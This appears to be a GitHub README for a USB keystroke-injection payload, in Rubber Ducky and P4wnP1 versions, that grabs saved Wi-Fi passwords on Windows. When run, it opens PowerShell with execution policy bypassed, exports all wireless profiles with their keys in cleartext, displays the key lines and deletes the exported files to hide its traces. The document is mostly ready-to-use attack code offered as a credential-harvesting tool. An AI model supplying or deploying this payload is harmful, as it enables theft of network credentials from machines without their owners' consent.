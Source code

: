 # Credentials - WiFiKeyGrabber

## Description

WiFiKeyGrabber is a simple HIDScript that show in powershell output the saved Wi-Fi Passwords.

## Requirement

1. First note this script has been created and tested under Windows 11 Build 22000.
2. I used a QWERTZ keyboard to do this ("ch" layout), so you may need to change that.

## Code Rubber/Pico Ducky

```bash
DEFAULT_DELAY 1000
GUI r
DELAY 200
STRING powershell.exe -nop -exec bypass
ENTER
DELAY 200
STRING netsh wlan export profile key=clear
ENTER
DELAY 200
STRING Select-String -Path Wi-Fi*.xml -Pattern 'keyMaterial' | Select Filename, LineNumber, Line, Path | Format-Table
ENTER
DELAY 200
STRING del Wi-Fi*.xml
ENTER
```

## Code P4wnP1 Version

```bash
layout("ch")
press("GUI r")
delay(200)
type("powershell.exe -nop -exec bypass")
press("ENTER")
delay(1000)
type("netsh wlan export profile key=clear")
press("ENTER")
type("Select-String -Path Wi-Fi*.xml -Pattern 'keyMaterial' | Select Filename, LineNumber, Line, Path | Format-Table")
press("ENTER")
type("del Wi-Fi*.xml")
press("ENTER")
```

